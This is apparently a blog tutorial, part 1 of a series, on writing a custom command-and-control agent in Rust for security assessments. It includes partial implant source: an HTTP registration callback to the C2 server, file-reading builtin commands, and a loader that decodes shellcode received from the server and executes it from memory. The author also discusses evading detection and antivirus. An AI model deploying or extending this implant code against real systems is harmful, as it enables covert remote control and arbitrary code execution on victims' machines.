

C2 your own adventure part 1
1. Introduction
So I recently got the idea that I wanted to create my own Command and Control framework.
Now why would I ever go down that rabbit hole, when there are multiple different available solutions out there?
I learn best by doing it myself, also if you want to go undetected on real assessments it's best to use your own tools.
This is due to frameworks like Metasploit and Cobalt strike being so well known, that everyone uses them.
Even the bad guys as it is easier, faster, and so feature rich that creating your own is seemingly a huge task, atleast if you want all the same bells and whistles that they offer.
But that being said if you want to examine other C2 frameworks, I can highly recommend The C2 Matrix.
It has information on many different C2 frameworks, and I have/will be using it liberally for inspiration.
This series will be split into 3 parts, this one focusing on the agent running on the system and the communication flows.
Part 2 will focus on the server and how it will function, with multiple agents talking back to it.
And part 3… Well I'll keep that a secret until then ;),
…and yes the title is a corny joke on the "choose your own adventure" game genre
2. What is C2?
C2 is an abbreviation of Command and Control, it is a centralised way of controlling a lot of units of some kind.
From my research, mostly skimming the Wikipedia article, there are today two industries where this is seen1:
- Military
- Cybersecurity
As I'm not a soldier or high ranking military official, I'm going to focus on the cybersecurity aspect.
In this world C2 often refers to the server or other infrastructure put in place to control malware like RATs, backdoors, or zombies connected to a botnet.
There are many things that could be included into a C2 infrastructure such as proxies between the agent and the server, or rapidly changing domainnames to evade blacklisting.
Many of these extra features are implemented to make it harder for blueteams to figure what has happened.
However as this my first dive into creating this, I'll be taking a rather simple aproach and just have a simple server.
3. Communication flow
Alright so now that we got the basics down, let's have a look at how the communication flows between the C2 server and the Agent.
I have broken the communication down in the following sequence diagram:

A you can see the agent registers it self to the server, so that the system knows which Agents are alive.
Each of the agents will register with a unique id so that it is possible to track the tasks and match the incoming results.
This is incase of having multiple agents reporting back to the same C2 server.
After having registered the agent, the agent will begin to ask the server for tasks to complete.
These tasks can be a multitude of things, or it could be nothing.
But whatever it is, the agent must be able to handle it, and then send the results back to the C2 server.
It's not a complicated communication flow, and there is no reason it should be.
4. The Agent
As I said in the beginning, I'll be focusing on the agent in this post.
There are a couple of choices that needs to be made with regards to the Agent.
- How will it communicate with the server?
- Static functions vs modular functions
- What platforms should it support?
Regarding the first question it of-course depends on what firewall rules are implemented on the target network.
But protocols like HTTP or HTTPS will probably work in most cases, as it is so widely used on the internet.
This is also quite easy regarding implementation as there are plenty libraries in multiple languages that can do some heavy lifting while implementing more interesting features of the agent.
So I will be using HTTP as an initial protocol for communication.
What I mean by "Static functions vs dynamic functions" is how much functionality is hardcoded into the agent.
This impacts the size of the agent, because as the amount of builtin functionality of the agent increases so does the agents size.
Where if the functionality can be modular, meaning it can be downloaded and executed during runtime of the agent, the size can be very limited.
A great example of this is the Meterpreter shell in the metasploit framework.
It is very modular, as it can load a multitude of post modules on the target machine.2
For the agent I'm creating I want a bit of both worlds. I like the idea of meterpreters modularity, but there is more learning programming wise when doing static functionality.
Therefore I'll make some basic shellcommands available such as: ls, cd and cat.
But also make it possible to create some loade modules of some kind.
In todays age of multiple different OS' and CPU architectures, it would be kind of a shame to be limited to only one OS and/or architecture.
The agent will therefore be written in Rust, as it is fast, cross-compileable and I want to learn it.
4.1. Components
In order to handle the above design decisions I have come up with the following 4 components to the Agent:
- Communication
- Task handler
- Builtin tasks
- Modular task loader
- Builtin tasks
I won't go into detail about all implementation details, as they are language specific.
And if you decide to create your own for the sake of learning, I think there is more value in understanding the underlying concepts than just copying the code.
That being said if you want to copy my code, I'll publish the source code once I'm done with this small three part series so stay tuned ;)
4.1.1. Communication
To get development started quickly I went with the rust crate hyper for handling the web requests to the C2 server. As of writing this post, the traffic between the Server and Agent is not encrypted, but will down the line setup encryption using HTTPS.
The code written for this component is fairly simple, and is based on the examples provided by hyper.
async fn register(imp_inf: &ImplantInfo) -> Result<(), ImplantError> {
let client = Client::new();
let uri = build_c2uri("/reg");
let req = Request::builder()
.method(Method::POST)
.uri(uri)
.header("Content-Type", "application/x-www-form-urlencoded")
.body(Body::from(format!(
"id={}&os={}&arch={}",
imp_inf.id, imp_inf.host_inf.os, imp_inf.host_inf.arch
)))
.expect("request builder");
let resp = client.request(req).await;
match resp {
Err(_e) => return Err(ImplantError::ServerUnreachable),
Ok(_) => Ok(()),
}
}
Now nothing wild and crazy is happening here, I build the request using the builder pattern.
And then I send it to the server using the client, and then await the response.
I would like to point out that I use a POST request, to send the initial data in the request body as this makes it easier to encrypt using HTTPS later.
If I want to go the HTTPS route, I would make a client outside of the scope of the function and then borrow it.
Beside registering the agent, there are also functions for fetching tasks and returning the results.
But they function more or less the same as the above example.
4.1.2. Task handling
Right now there are only two types of tasks, those being the builtin and the module types.
To be able to handle those in an elegant way, and be able easily expand it later I created an enum with the possible types.
This enum is the used with the pattern matching functionality in rust to execute
enum ImplantTaskType {
Builtin,
Module,
None,
}
[...]
fn handle_task(
imp_inf: &ImplantInfo,
task: &mut ImplatTask,
) -> Result<ImplantTaskResult, ImplantError> {
match task.task_type {
ImplantTaskType::Builtin => builtin_tasks(task),
ImplantTaskType::Module => module_task(task),
ImplantTaskType::None => Err(ImplantError::TaskError),
}
}
4.1.2.1. Builtins
I created five simple versions of the shell commands:
- ls
- cd
- cat
- pwd
- whoami
These implmentations are really simple, but a good introduction to interacting with files and directories in rust.
So let's take a closer look at the implementation of cat
fn builtin_tasks(
task: &mut ImplantTask,
) -> Result<ImplantTaskResult, ImplantError> {
let mut result = ImplantTaskResult::new();
match task.name.as_str() {
"ls" => {...}
"cd" => {...}
"cat" => {
for arg in &task.args {
let path = Path::new(arg);
result.push_str(
format!("TARGET: {}:\n", path.display()).as_str(),
);
if !path.exists() {
result.push_str("File does not exist\n");
} else if path.is_dir() {
result.push_str("Can't read dir\n");
} else if path.is_file() {
let mut file = File::open(path).unwrap();
file.read_to_string(&mut result);
}
result.push_str("======================\n")
}
}
"pwd" => {...}
"whoami" => {...}
_ => {return Err(ImplantError::TaskError)}
}
task.run = true;
Ok(result)
}
I have redacted the source from the other builtin tasks in the above snippet.
The first thing that happens is that we match the name of the task to one of the implemented names.
If the matches cat, then we loop over each of the supplied arguments.
Each of the arguments are used to create a Path struct, which I do some test on to determine what exactly we're looking at.
If the path.is_file() call returns true, I then open the file and reads the content into the result string.
Again the implementation details aren't the is not the focus, so this is just to emphasize that the builtin tasks, as the name suggests, are built into the agent.
4.1.2.2. Modular
The modular tasks are a tiny bit more complicated, as I need the agent to be able to load and execute arbitrary code.
This would be really easy in a language like C, where there are no memory restrictions.
But rust being the language it is, there are one or two hoops we need to jump through.
My result is based on an article from kerkour, which you can read here: How to execute shellcodes from memory in rust
I have outlined the steps needed to be done in the figure below:
I plan on sending the shellcode from the server base64 encoded, so that needs to be decoded before we load and execute it.
In the implementation of the modular tasks, I first decode the bytes containing the shellcode.
Then load it into memory by memorymapping it and then setting it as executable.
In the unsafe block, the bytes are copied into the executable memory before the transmute function is called, resulting in a function containing the shellcode.
fn module_task(
task: &mut ImplantTask,
) -> Result<ImplantTaskResult, ImplantError> {
let result: String;
if task.args.len() == 1 {
let bytes = base64::decode(task.args[0].as_str()).unwrap();
let map = MemoryMap::new(
bytes.len(),
&[MapExecutable, MapReadable, MapWritable],
).unwrap();
unsafe{
std::ptr::copy(bytes.as_ptr(), map.data(), bytes.len());
let exec_shellcode: extern "C" fn() -> &str = mem::transmute(map.data());
let res = exec_shellcode();
result = String::from(res);
}
}
Ok(result)
}
And that's it, atleast for executing it. Next problem… how do we make these shellcodes?
Here I want to redirect to another article from kerkour called How to write and compile shellcode in rust, as an introduction to this.
You can of course write it manually in assembly, but writing in a higher language such as rust may be favorable for you.
I have started on a side project in tandem with this one that will make it a bit easier to create shellcode. But that is not in the scope of this post ;)
4.1.2.3. Future task types
Shellcode is quite modular because it can do whatever it is told, but there is a lot of premade tools that would be nice to be able to be able to run.
There are different ways to do this, it could download the executable to the harddisk and then just run it.
This might give problems with anti-virus, but if it's run from memory kinda like the shellcode it shouldn't ring that many alarms.
It could also execute directly from memory, which would also reduce cleanup after.
Another type of tasks could be shellscripts such as powershell or bash depending on the target system.
5. Conclusion
If you have read this far I really hope enjoyed and learned a little about what goes into creating a agent.
Most of the focus has been on the design, because the implementation will always differ between languages.
As this was the first agent I have created, there is still a bunch of features that I want, that I don't feel like describing in detail.
A lot of this has to do with doing things covert, as the callbacks are quite noisy at the moment.
What I got right now isn't meant to be stealthy, it just meant to work.
Also persistense isn't a thing yet
Next post will focus on the server that the agent will make callbacks to.